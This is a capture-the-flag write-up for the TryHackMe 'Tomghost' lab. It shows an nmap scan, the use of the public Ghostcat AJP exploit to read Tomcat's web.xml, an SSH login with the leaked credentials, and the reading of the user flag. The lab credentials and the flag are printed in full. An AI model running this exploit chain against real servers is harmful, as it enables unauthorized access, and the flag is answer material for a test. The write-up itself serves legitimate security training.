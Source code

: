 # Tomghost

Starting with basic recon:
```sh
nmap -sV $ip -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 08:19 CEST
Nmap scan report for 10.10.46.67
Host is up (0.078s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a few services running but I can instantly see an application running on Port `8080` named Tomcat. <br/>
So I would just make a quick browser search for known exploits. <br/>

![grafik](https://github.com/Aryt3/writeups/assets/110562298/8f316966-b846-4017-a809-1160fd813237)

this leads me to https://www.exploit-db.com/exploits/48143. <br/>
Using the exploit:
```sh
python2 exploit.py 10.10.46.67 -p 8009 -f WEB-INF/web.xml
Getting resource at ajp13://10.10.46.67:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

After successfully retrieving user creds I try to login:
```sh
ssh skyfuck@$ip       
The authenticity of host '10.10.46.67 (10.10.46.67)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.67' (ED25519) to the list of known hosts.
skyfuck@10.10.46.67's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
```

Taking a look around:
```sh
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

After taking a closer look at those files I want to look around further.
```sh
skyfuck@ubuntu:~$ ls /home/
merlin  skyfuck
skyfuck@ubuntu:~$ ls /home/merlin
user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

Seems like we got our first flag.


